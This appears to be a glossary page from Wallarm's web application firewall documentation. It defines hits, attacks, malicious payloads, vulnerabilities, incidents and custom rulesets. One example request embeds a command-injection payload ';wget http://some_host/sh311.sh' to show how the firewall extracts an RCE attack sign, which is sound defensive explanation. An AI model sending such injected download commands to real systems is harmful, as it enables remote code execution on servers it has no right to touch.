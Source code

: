 # Glossary

The glossary covers the core Wallarm entities to provide you with a better understanding of the platform.

## Hit

A hit is a serialized malicious request (original malicious request and metadata added by the filtering node). For example:

![!Hit example](images/glossary/hit-example.png)

## Attack

An attack is a single hit or multiple hits grouped by the following characteristics:

* The same attack type, the parameter with the malicious payload, and the address the hits were sent to. Hits may come from the same or different IP addresses and have different values of the malicious payloads within one attack type.

    This hit grouping method is basic and applied to all hits.
* The same source IP address if the appropriate [trigger](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) is enabled. Other hit parameter values can differ.

    This hit grouping method works for all hits except for the ones of the Brute force, Forced browsing, Resource overlimit, Data bomb and Virtual patch attack types.

    If hits are grouped by this method, the [**Mark as false positive**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) button and the [active verification](about-wallarm-waf/detecting-vulnerabilities.md#active-threat-verification) option are unavailable for the attack.

The listed hit grouping methods do not exclude each other. If hits have characteristics of both methods, they are all grouped into one attack.

An example of an attack including a single hit:

![!Attack with one hit](images/glossary/attack-with-one-hit-example.png)

An example of an attack including many hits:

![!Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## Malicious Payload

A part of an original request containing the following elements:

* Attack signs detected in a request. If several attack signs characterizing the same attack type are detected in a request, only the first sign will be recorded to a payload.
* Context of the attack sign. Context is a set of symbols preceding and closing detected attack signs. Since a payload length is limited, the context can be omitted if an attack sign is of full payload length.

For example:

* Request:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Malicious payload:

    ```bash
    ;wget+http://s
    ```

    In this payload, `;wget+` is the [RCE](attacks-vulns-list.md#remote-code-execution-rce) attack sign and another part of the payload is the attack sign context.

Since attack signs are not used to detect [behavioral attacks](about-wallarm-waf/protecting-against-attacks.md#behavioral-attacks), requests sent as a part of behavioral attacks have empty payloads.

## Vulnerability
A vulnerability is an error made due to negligence or inadequate information when building or implementing a web application that can lead to an information security risk.

The information security risks are:

* Unauthorized data access; for example, access to read and modify user data.
* Denial of service.
* Data corruption and other.

The Internet traffic can be used to detect the vulnerabilities, which is what Wallarm does, among other functions.

## Security Incident

A security incident is an occurrence of vulnerability exploitation. An incident is an [attack](#attack) targeted at a confirmed vulnerability.

An incident, just like an attack, is an entity external to your system and is a characteristic of the outside Internet, not the system itself. Despite the fact that the attacks targeted at existing vulnerabilities are a minority, they are of the utmost importance in terms of information security. Wallarm automatically detects the attacks targeted at existing vulnerabilities and displays them as a separate object - incident.

## MITM
A man in the middle (MITM) attack consists of an attacker secretly relaying the communication between two parties who believe they are directly communicating with each other.
[See OWASP](https://owasp.org/www-community/attacks/Manipulator-in-the-middle_attack).

## Circular Buffer
A circular buffer is a data structure that uses a single, fixed‑size buffer as if it were connected end‑to‑end.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Custom ruleset (the former term is LOM)

A custom ruleset is a set of compiled API Security rules downloaded by Wallarm nodes from the Wallarm Cloud.

Custom rules enable you to set up individual rules for the traffic processing, e.g.:

* Mask sensitive data before uploading to the Wallarm Cloud
* Create regexp-based attack indicators
* Apply a virtual patch blocking requests that exploit an active vulnerability
* Disable attack detection in certain requests, etc.

A custom ruleset is not empty by default, it contains the rules created for all clients registered in the Cloud, e.g. the filtration mode rule with the value from the [**Settings → General** tab](user-guides/settings/general.md).

[More details on custom rulesets](user-guides/rules/intro.md)

## Invalid Request
A request that was checked by filter node and does not match LOM rules.

## Reverse Proxy
A reverse proxy is a type of proxy server that retrieves resources on behalf of a client from a server and returns the resources to the client as if they originated from the Web server itself.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority
A certificate authority is an entity that issues digital certificates.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
